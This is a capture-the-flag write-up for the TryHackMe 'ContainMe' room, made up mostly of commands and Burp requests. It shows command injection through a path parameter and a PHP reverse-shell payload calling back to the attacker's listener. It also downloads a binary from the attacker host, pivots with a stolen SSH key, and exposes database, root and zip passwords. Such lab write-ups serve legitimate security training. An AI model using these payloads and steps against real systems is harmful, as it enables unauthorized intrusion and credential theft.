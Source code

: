 # ContainMe

**Room Link:** [https://tryhackme.com/room/containme1](https://tryhackme.com/room/containme1)

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp Request**

```
GET /index.php?path=;id HTTP/1.1
Host: 10.10.108.33
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

**Kali**

```
nc -lvnp 1337
```

**Burp Request**

```
GET /index.php?path=;php+-r+'$sock%3dfsockopen("$KALI",1337)%3bexec("sh+<%263+>%263+2>%263")%3b' HTTP/1.1
Host: 10.10.128.4
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

<figure><img src="../../.gitbook/assets/image (455).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
/usr/share/man/zh_TW/crypt mike
```

<figure><img src="../../.gitbook/assets/image (456).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/andrew-d/static-binaries.git
cd static-binaries/binaries/linux/x86_64
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp/
wget http://$KALI:81/nmap
chmod +x nmap
./nmap 172.16.20.0/24 -Pn
```

<figure><img src="../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

Mike has a ssh key so I tried logging into the other server with that and it worked.

**Victim**

```
ssh mike@172.16.20.6 -i /home/mike/.ssh/id_rsa
```

<figure><img src="../../.gitbook/assets/image (459).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**&#x20;

**Victim**

```
ss -ltp 
```

<figure><img src="../../.gitbook/assets/image (461).png" alt=""><figcaption></figcaption></figure>

Password was password, just guessed it.

**Victim(mysql)**

```
mysql -ppassword 
show databases; 
use accounts;  
select * from users ;
```



<figure><img src="../../.gitbook/assets/image (460).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>su root
</strong>Password: bjsig4868fgjjeog
</code></pre>

<figure><img src="../../.gitbook/assets/image (462).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /root
</strong><strong>unzip mike.zip
</strong><strong>Password: WhatAreYouDoingHere
</strong></code></pre>









